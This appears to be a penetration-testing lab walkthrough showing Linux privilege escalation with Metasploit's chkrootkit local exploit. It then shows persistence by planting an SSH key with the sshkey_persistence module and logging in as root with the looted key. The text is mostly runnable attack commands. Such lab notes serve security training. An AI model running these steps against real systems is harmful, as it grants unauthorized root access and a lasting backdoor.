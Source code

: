 
**PRIVILEGE ESCALATION**

```shell
# The target system has a vulnerable version of chkrootkit installed that is vulnerable to privilege escalation and can be exploited through the use of a Metasploit module.
search chkrootkit
use exploit/unix/local/chkrootkit
set SESSION 2
set CHKROOTKIT /bin/chkrootkit # Set the path to the chkrootkit binary.
set LHOST <local_IP>
exploit
# The module runs successfully and provides us with an elevated command shell session on the target system.
# We can also upgrade this command shell session to a meterpreter session by running the following command:
sessions -u 3
```

**ESTABLISHING PERSISTENCE**

```shell
# Now that we have been able to elevate our privileges on the target system, we can begin exploring the process of establishing persistence.

# The best Metasploit module that can be used to establish persistent access on a Linux target is the sshkey_persistence module.
use post/linux/manage/sshkey_persistence
set SESSION <session_number>
set CREATESSHFOLDER true
exploit
# Storing new private key as /root/.msf4/loot/20250324161425_default_192.143.107.3_id_rsa_044033.txt

# To use the private key, copy the key and save it as a new file, in this case, we will be saving it in the home directory of the root user on the Kali Linux system as ssh_key.
# New terminal:
cat /root/.msf4/loot/20250324161425_default_192.143.107.3_id_rsa_044033.txt
cp /root/.msf4/loot/20250324161425_default_192.143.107.3_id_rsa_044033.txt ssh_key

# We will then need to assign the appropriate permissions to the file, this can be done by running the following commands:
chmod 0400 ssh_key

# We can now authenticate with the target using the private key via SSH by running the following command:
ssh -i ssh_key root@<target_domain_or_ip>

# As shown in the following screenshot, the authentication with the private key is successful and we have successfully been able to establish persistent access to the Linux target by adding our public key to the authorized_keys file of over user account, consequently allowing us to authenticate with the target via SSH without providing a password.
```

